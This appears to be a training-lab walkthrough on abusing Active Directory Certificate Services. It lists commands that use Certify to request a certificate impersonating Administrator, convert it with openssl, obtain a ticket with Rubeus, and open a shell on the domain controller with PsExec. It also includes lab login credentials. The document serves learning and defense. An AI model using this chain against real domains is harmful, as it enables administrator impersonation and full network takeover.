

---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services


# 

- RDP:

```bash
xfreerdp /v:10.102.155.250 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```


- Find vulnerable templates:

```bash
.\Certify.exe find /vulnerable

```


Certify request /ca:\<Name of the CA retrieved previously\> /template:\<Name of the vulnerable template\> /altname:\<User to impersonate\>

```bash
.\Certify.exe request /ca:DC01.krbtown.local\krbtown-DC01-CA /template:VulnTemplate /altname:Administrator

```


- Copy RSA key and Cert and paste in to Kali (cert.pem):

- Run (Leave passwords blank):

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```


- Copy that file through the mounted drive to the Windows Desktop

- Open Powershell:

```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:Administrator /ptt

```


- Now that you have a TGT for the administrator user, you can use PsExec to log in to the DC:

```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```


